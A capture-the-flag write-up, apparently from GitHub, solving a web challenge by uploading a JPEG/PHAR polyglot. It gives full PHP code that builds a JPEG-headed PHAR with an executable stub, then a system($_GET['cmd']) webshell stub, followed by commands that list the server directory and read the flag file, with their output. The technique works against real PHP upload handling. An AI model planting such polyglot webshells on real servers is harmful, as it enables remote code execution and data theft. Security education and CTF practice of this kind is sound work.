




In this challenge we need to upload `jpg` file which is also a valid `phar` file, and then we can get `RCE` using the `stub` in the `phar` archive.

We can't just change the file extension, or add some comment, because we need both `phar` valid file and `jpg` file, and this is where i find this paper, [disguise phar packages as images](https://www.nc-lp.com/blog/disguise-phar-packages-as-images).

Here we can see its code, we modify it by a bit and got this code:
```php
<?php

$jpeg_header_size = 
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size."<?php phpinfo(); __HALT_COMPILER(); ?>");
$phar->stopBuffering();
?>
```

After executing this, we get a the file `phar.phar`.
We change the extension to `jpg`:
```bash
mv phar.phar phar.jpg
```

As you can see, the polygot is working!



Now, let's try to upload this `phar.jpg` to the server, and access it via admin page.

We get the random name: `phpZUq7LP.jpg`, so this would be the payload we give to the admin page:
```
uploads/phpZUq7LP.jpg
```


Now, let's upload our webshell:
```php
$phar->setStub($jpeg_header_size."<?php system(\$_GET['cmd']); __HALT_COMPILER(); ?>");
```

Okay, we give this `GET` parameter, I gave the new line to see the results more clear:
```bash
cmd=echo '\n';ls -la;
```
and the response:
```
total 28
drwxrwxrwt 1 www-data www-data 4096 Jul 13  2024 .
drwxr-xr-x 1 root     root     4096 Nov 21  2023 ..
-rw-r--r-- 1 root     root       19 Dec 10  2021 flag-juygaz36YyTFyT6R.txt
-rw-r--r-- 1 root     root     2774 Mar 22  2022 index.php
drwxrwsrwx 1 root     root     4096 Aug 19 18:14 uploads
```




Let's read `flag-juygaz36YyTFyT6R.txt`, I'm using base64 because it doesn't display the content:
```
cmd=echo '\n';cat flag.txt | base64 -w 0;
```
And we get back:
```
Tm93WW91QXJlQmlsaW5ndWFsIQ==
```
which after decoding gives us:
```
NowYouAreBilingual!
```




**Flag:** ***`NowYouAreBilingual!`***
